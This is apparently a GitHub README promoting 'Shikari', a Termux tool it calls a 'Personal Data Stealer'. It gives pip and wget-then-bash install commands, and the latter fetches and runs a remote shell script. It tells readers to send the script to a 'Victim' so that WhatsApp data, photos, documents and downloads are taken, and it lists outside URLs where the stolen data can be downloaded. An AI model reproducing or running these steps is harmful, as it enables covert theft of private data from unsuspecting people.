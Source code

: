 <p align="center">
<a href="#"><img title="succeed" src="https://img.shields.io/badge/deobfuscating-succeed-green?colorB=%23017e40&style=for-the-badge"></a>
</p>
<p align="left">
<a href="https://github.com/hax0rtahm1d"><img title="HaX0r Tahm1d" src="https://img.shields.io/badge/By-HaX0r%20Tahm1d-blue?style=for-the-badge&logo=github"></a>
</p>
<br/><br/>

<!--
https://pypi.org/project/shikari/
https://pypi.org/project/shikari/
-->

[![](https://img.shields.io/pypi/pyversions/readme-generator.svg?longCache=True)](https://pypi.org/project/readme-generator/)
<br><br>
#### Installation
$ pip install shikari

or

$ wget https://raw.githubusercontent.com/Bhai4You/Shikari/master/shikari.sh;bash shikari.sh

<br><br>

#### Features
+   **shikari**, Personal Data Stealer Termux Tool
<br><br>
#### Screenshot :
<a href="https://ibb.co/1sjMwKF"><img src="https://i.ibb.co/1sjMwKF/ss1.jpg" alt="ss1" border="0"></a>
<a href="https://ibb.co/YPg0dp7"><img src="https://i.ibb.co/YPg0dp7/ss2.jpg" alt="ss2" border="0"></a>
<br><br>

#### How to Use
+   **pip install shikari**
+   **shikari-whatsapp**

Paste this two code in Termux Script and Send to your Victim !! then Shikari Automatically Shikar and Hack Victim whatsapp Data ^^

<br><br>

#### Menu Options :

$ shikari

shikari-home<br>
shikari-dcim<br>
shikari-doc<br>
shikari-pic<br>
shikari-download<br>
shikari-whatsapp<br>
shikari-movie<br>
<br>
Created by Parixit Sutariya<br>
Github : github.com/Bhai4You<br>
Youtube : youtube.com/BullAnonymous<br>


<br><br>
#### How to Hack Whatsapp ?

$ shikari-whatsapp

Created by Parixit Sutariya
Github : github.com/Bhai4You
Youtube : youtube.com/BullAnonymous

<br><br>
#### How to Download Shikari Data ?
http://scnc.co.za/shikari.txt<br>
http://ayk.co.za/shikari.txt<br>
http://foodconsult.co.za/shikari.txt<br>

<p align="center">
    <a href="https://pypi.org/project/shikari/">Shikari Tool</a>
</p>
